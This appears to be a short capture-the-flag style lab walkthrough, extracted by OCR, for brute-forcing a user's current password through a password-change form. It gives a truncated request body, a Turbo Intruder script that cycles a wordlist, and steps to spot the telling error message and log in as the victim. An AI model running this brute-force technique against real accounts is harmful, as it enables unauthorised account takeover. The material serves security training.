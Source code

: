 ```
username=carlos&current-password=%s&new-password-1=123&new-pas
```
- Run this code 
```
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=10,
                           requestsPerConnection=100,
                           pipeline=False
                           )


 
    passwords = open('/home/kali/password').read().splitlines()

    
    for password in passwords:
        engine.queue(target.req, password)
           


def handleResponse(req, interesting):
    if req.status != 404:
        table.add(req)
```

- Find the reponse with "New Password Do not Match"
- Log in to carlos page to solve the lab

